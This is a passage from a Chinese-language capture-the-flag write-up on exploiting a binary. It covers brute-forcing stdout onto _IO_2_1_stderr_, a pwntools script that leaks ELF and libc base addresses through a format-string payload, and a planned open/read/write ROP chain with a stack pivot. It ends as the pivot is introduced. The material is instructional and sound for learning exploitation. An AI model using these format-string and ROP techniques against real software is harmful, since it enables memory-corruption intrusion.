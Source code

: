 如上图，这次，我们没有成功让stdout指向_IO_2_1_stderr_，但是，只要我们不断的爆破，总有一次会成功，然后printf就可以正常输出了。

我们利用这种方式检验是否成功指向_IO_2_1_stderr_

1.  #休眠是必要的  
2.  time.sleep(0.2)  
3.  sh.sendline('aaaaaaa'.ljust(0x12C-1,'\x00'))  

5.  x = sh.recvuntil('aa',**timeout=0.5**)  
6.  **if** 'aa' **not** **in** x:  
7.  **raise** Exception('retry')  

假设我们已经成功将stdout指针指向了_IO_2_1_stderr_结构体，接下来，我们就要来泄露信息了

![](img/75809f3b8431f865786cdbd5e9131024.png)

泄露这些信息，分别计算程序基址和libc基址，以及其他一些gadget和函数的地址

1.  #泄露main+0x2D的地址  
2.  payload = '%11$p%15$pTAG'  
3.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  
4.  sh.recvuntil('0x')  
5.  main_addr = int(sh.recvuntil('0x',drop=True),16) - 0x2D  
6.  elf_base = main_addr - main_s  
7.  pop_rsi_addr = pop_rsi + elf_base  
8.  pop_rdi_addr = pop_rdi + elf_base  
9.  buf_addr = buf_s + elf_base  
10.  leave_addr = leave + elf_base  
11.  #泄露__libc_start_main+E7的地址  
12.  __libc_start_main_addr = int(sh.recvuntil('TAG',drop=True),16) - 0xE7  
13.  libc_base = __libc_start_main_addr - __libc_start_main  
14.  open_addr = libc_base + open_s  
15.  read_addr = libc_base + read_s  
16.  write_addr = libc_base + write_s  
17.  pop_rdx_addr = libc_base + pop_rdx  
18.  **print** 'elf_base=',hex(elf_base)  
19.  **print** 'libc_base=',hex(libc_base)  

以上的一些地址，我们在构造rop链实现如下代码，需要用到的

1.  fd = open("flag",0);  
2.  read(fd,buf+0x100,0x30);  
3.  write(2,buf+0x100,0x30);  

如果全都用printf格式化漏洞来对栈里面写ROP链，那么会比较麻烦，因此，我们决定把ROP链放入bss段的buf里面，然后修改ebp，将栈转移到buf里去

那么，我们该如何做**栈转移**呢？

![](img/a2b18e75e1882ee4f648ef1aaca1c7c0.png)
